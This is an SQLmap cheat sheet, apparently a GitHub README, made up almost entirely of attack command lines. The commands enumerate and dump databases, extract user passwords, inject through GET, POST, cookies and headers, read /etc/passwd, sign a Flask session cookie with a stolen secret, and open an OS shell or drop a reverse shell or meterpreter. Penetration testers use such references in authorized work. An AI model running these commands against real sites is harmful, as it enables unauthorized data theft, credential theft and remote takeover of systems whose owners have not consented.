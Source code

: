 # SQLmapCheatSheet
# Attack Example:-

    $ sqlmap -u www.site.com/index.php?id=1 -- batch --dbs
    $ sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name --tables
    $ sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name -T table_name --columns
    $ sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name -T table_name -C columns_name1,columns_name2,columns_name3 --dump



## Basic arguments for SQLmap
Generic 
-   -u " < URL > " 
-   -p "<PARAM TO TEST>" 
-   --user-agent=SQLMAP 
-   --random-agent 
-   --threads=10 
-   --risk=3 #MAX
-   --level=5 #MAX
-   --dbms="<KNOWN DB TECH>" 
-   --os="<OS>"
-   --technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
-   --batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-   --auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
-   --auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
-   --proxy=http://127.0.0.1:8080
-   --union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char

## Retrieve Information
Internal
-   --current-user #Get current user
-   --is-dba #Check if current user is Admin
-   --hostname #Get hostname
-   --users #Get usernames od DB
-   --passwords #Get passwords of users in DB
-   --privileges #Get privileges


## DB data
-   --all #Retrieve everything
-   --dump #Dump DBMS database table entries
-   --dbs #Names of the available databases
-   --tables #Tables of a database ( -D <DB NAME> )
-   --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-   -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column


## Injection place
-   From BurpSuite/ZAP capture
-   Capture the request and create a req.txt file!
-   [sqlmap -r req.txt --current-user]

## GET Request Injection
-   sqlmap -u "http://example.com/?id=1" -p id
-   sqlmap -u "http://example.com/?id=*" -p id

## POST Request Injection
-   sqlmap -u "http://example.com" --data "username=*&password=*"

 
## Injections in Headers and other HTTP Methods
# Inside cookie
-   sqlmap  -u "http://example.com" --cookie "mycookies=*"

## Inside some header
-  sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
-  sqlmap -u "http://example.com" --headers="referer:*"

## PUT Method
-  sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
-  <!--The injection is located at the '*'-->





## Indicate string when injection is successful
-  --string="string_showed_when_TRUE" 


## Eval
Sqlmap allows the use of -e or --eval to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the flask cookie session is signed by flask with the known secret before sending it:
-  sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump



## Shell
# Exec command
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

# Simple Shell
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

# Dropping a reverse-shell / meterpreter
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn



# Read File
-  --file-read=/etc/passwd


## Crawl a website with SQLmap and auto-exploit ->
-  sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

-  --batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-  --crawl = how deep you want to crawl a site
-  --forms = Parse and test forms


## Second Order Injection
-  python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
-  sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs



## Set a suffix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "


## Prefix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "


## Help finding boolean injection
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
-  sqlmap -r r.txt -p id --not-string ridiculous --batch

